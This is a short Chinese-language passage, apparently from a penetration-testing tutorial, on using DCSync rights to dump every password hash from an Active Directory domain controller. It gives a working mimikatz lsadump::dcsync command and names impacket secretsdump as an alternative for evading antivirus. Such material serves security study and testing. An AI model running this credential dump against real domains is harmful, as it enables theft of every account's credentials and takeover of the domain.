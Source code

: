 ## [三、DCSync攻击域控](https://tttang.com/archive/1634/#toc_dcsync_2)

如果拿到了域内用户的权限，则可以在域内直接使用mimikatz去dump域控hash,注意：这里不需要使用debug权限也可以去直接dump哈希的，因为DCSync去向域控发起请求，并非本地操作，为网络请求。
当前为普通域用户，并非在管理员组中
[![image.png](.\图片\225775da-e1b1-417e-8a0d-99a3415e7010.png)](https://storage.tttang.com/media/attachment/2022/06/25/225775da-e1b1-417e-8a0d-99a3415e7010.png)
具有DCSync权限，则可以直接连接域控dump哈希

```
mimikatz.exe "log Micropoor.txt"  "lsadump::dcsync /domain:test.com /all /csv " "exit"
```

[![image.png](.\图片\43494f8d-4f67-4285-a0b7-8d9878828586.png)](https://storage.tttang.com/media/attachment/2022/06/25/43494f8d-4f67-4285-a0b7-8d9878828586.png)
如果主机上有杀软无法上传mimikatz，可以使用impacket中的secretsdump去dump哈希

